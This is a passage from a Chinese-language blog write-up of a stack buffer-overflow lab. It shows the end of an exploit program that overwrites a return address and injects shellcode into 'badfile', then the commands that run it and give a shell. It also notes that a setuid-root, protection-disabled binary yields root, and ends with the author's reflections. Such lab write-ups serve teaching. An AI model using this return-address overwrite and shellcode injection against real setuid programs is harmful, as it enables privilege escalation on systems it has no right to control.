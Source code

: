 ```
        *((long*)(buffer+36)) = 0xbffff0d8 + 0x80;              //buffer+32+4 根据上述调试结果得到
        memcpy(buffer+sizeof(buffer)-sizeof(shellcode), shellcode, sizeof(shellcode));   
    
        /* Save the contents to the file "badfile" */
        badfile = fopen("./badfile", "w");
        fwrite(buffer, 517, 1, badfile);
        fclose(badfile);
    }
```

### 3. 脚本运行

    gcc -o exploit exploit.c
    ./exploit
    ./stack
    $ id
    uid=1000(s) gid=1000(s) groups=1000(s),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
成功！ 

PS： 对stack设置UID，可以拿到root权限

    $ gcc -o stack -z execstack -fno-stack-protector stack.c
    
    $ sudo chown root stack
    
    $ sudo chmod 4755 stack

## 小结
我好讨厌写博客，实验做很快，复盘要很久（尤其调格式简直逼死强迫症==）不过回顾一下理清思路还挺有必要的，写博客麻烦还不是因为脑子乱==sad
通过这一个缓冲区溢出的知识点可以展开再写几篇
> 如何编写shellcode
控制流劫持与返回地址覆盖的区别
VMware tools安装

先想到这么多，之后再补充